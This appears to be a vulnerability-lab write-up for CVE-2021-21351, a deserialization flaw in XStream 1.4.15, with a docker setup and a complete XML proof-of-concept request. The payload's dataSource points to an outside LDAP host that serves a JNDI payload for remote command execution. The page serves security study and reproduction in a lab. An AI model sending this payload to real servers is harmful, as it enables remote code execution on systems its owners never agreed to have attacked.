

XStream Deserialization Remote Command Execution (CVE-2021-21351)¶
XStream is a simple library to serialize objects to XML and back again.
XStream uses a blocklist mechanism when parsing XML text which is utilized to defend against deserialization vulnerabilities, but in 1.4.15 and earlier, blocklists are incomplete and attackers could use javax.naming.ldap.Rdn$RdnEntry and javax.sql.rowset.BaseRowSet to make an JNDI injection and execute arbitrary commands finally.
Reference links.
- https://x-stream.github.io/CVE-2021-21351.html
- https://paper.seebug.org/1543/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
- https://github.com/welk1n/JNDI-Injection-Exploit/
Vulnerable Environment¶
Start a Springboot + XStream 1.4.15 server.
docker compose up -d
Once the environment is started, you can send the following request to http://your-ip:8080 to test if the server has started successfully

POC¶
Since the target Java version is higher than 8u191, you need the help of org.apache.naming.factory.BeanFactory with EL expression injection to execute arbitrary commands, reference to this article.
You can use the Java Chains for vulnerability replication. Refer to the Quick Start to launch Java Chains. Afterwards, according to the image below, select to set the command to execute as touch /tmp/success, and generate the JNDI LDAP URL Payload:

Use the above LDAP URL as the value of <dataSource> to construct the POC as follows:
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3181
<sorted-set>
<javax.naming.ldap.Rdn_-RdnEntry>
<type>ysomap</type>
<value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
<m__DTMXRTreeFrag>
<m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
<m__size>-10086</m__size>
<m__mgrDefault>
<__overrideDefaultParser>false</__overrideDefaultParser>
<m__incremental>false</m__incremental>
<m__source__location>false</m__source__location>
<m__dtms>
<null/>
</m__dtms>
<m__defaultHandler/>
</m__mgrDefault>
<m__shouldStripWS>false</m__shouldStripWS>
<m__indexing>false</m__indexing>
<m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
<fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
<javax.sql.rowset.BaseRowSet>
<default>
<concurrency>1008</concurrency>
<escapeProcessing>true</escapeProcessing>
<fetchDir>1000</fetchDir>
<fetchSize>0</fetchSize>
<isolation>2</isolation>
<maxFieldSize>0</maxFieldSize>
<maxRows>0</maxRows>
<queryTimeout>0</queryTimeout>
<readOnly>true</readOnly>
<rowSetType>1004</rowSetType>
<showDeleted>false</showDeleted>
<dataSource>ldap://java-chains-ip:50389/x</dataSource>
<listeners/>
<params/>
</default>
</javax.sql.rowset.BaseRowSet>
<com.sun.rowset.JdbcRowSetImpl>
<default/>
</com.sun.rowset.JdbcRowSetImpl>
</fPullParserConfig>
<fConfigSetInput>
<class>com.sun.rowset.JdbcRowSetImpl</class>
<name>setAutoCommit</name>
<parameter-types>
<class>boolean</class>
</parameter-types>
</fConfigSetInput>
<fConfigParse reference='../fConfigSetInput'/>
<fParseInProgress>false</fParseInProgress>
</m__incrementalSAXSource>
<m__walker>
<nextIsRaw>false</nextIsRaw>
</m__walker>
<m__endDocumentOccured>false</m__endDocumentOccured>
<m__idAttributes/>
<m__textPendingStart>-1</m__textPendingStart>
<m__useSourceLocationProperty>false</m__useSourceLocationProperty>
<m__pastFirstElement>false</m__pastFirstElement>
</m__dtm>
<m__dtmIdentity>1</m__dtmIdentity>
</m__DTMXRTreeFrag>
<m__dtmRoot>1</m__dtmRoot>
<m__allowRelease>false</m__allowRelease>
</value>
</javax.naming.ldap.Rdn_-RdnEntry>
<javax.naming.ldap.Rdn_-RdnEntry>
<type>ysomap</type>
<value class='com.sun.org.apache.xpath.internal.objects.XString'>
<m__obj class='string'>test</m__obj>
</value>
</javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
It can be seen that touch /tmp/success has been successfully executed:

If something goes wrong with the POC and Java version, the POC have to be modified by changing <__overrideDefaultParser>false</__overrideDefaultParser> to <__useServicesMechanism>false</__useServicesMechanism>.